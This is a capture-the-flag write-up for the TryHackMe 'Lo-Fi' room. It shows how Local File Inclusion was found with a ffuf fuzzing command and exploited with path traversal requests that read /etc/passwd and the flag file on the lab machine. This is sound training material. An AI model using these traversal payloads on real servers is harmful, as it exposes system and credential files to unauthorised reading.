



# Lo-Fi Challenge 

## Room Info

- Platform: TryHackMe
- Difficulty: Easy
- Category: Web Exploitation
- Focus: Local File Inclusion (LFI), Directory Traversal

## Objectives
- Identify and exploit a Local File Inclusion vulnerability
- Access sensitive files using path traversal
- Capture the flag

## Exploitation

I began by visiting the target website: http://machine_ip/
After navigating through different pages, I noticed that the URL structure included a page parameter: http://machine_ip/?page=relax.php

To automate the discovery of potential Local File Inclusion vulnerabilities, I used ffuf, with the ``LFI-Jhaddix.txt`` wordlist

<pre>
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://machine_ip/?page=FUZZ" -fl 124
</pre>

After identifying the page parameter as vulnerable to Local File Inclusion, I tested one of the fuzzed payloads:
<pre>
http://machine_ip/?page=../../../../etc/passwd
</pre>

After confirming the LFI vulnerability, I attempted to access the final target file:
<pre>
http://machine_ip/?page=../../../../../flag.txt
</pre>

The server responded with the contents of flag.txt, revealing the flag

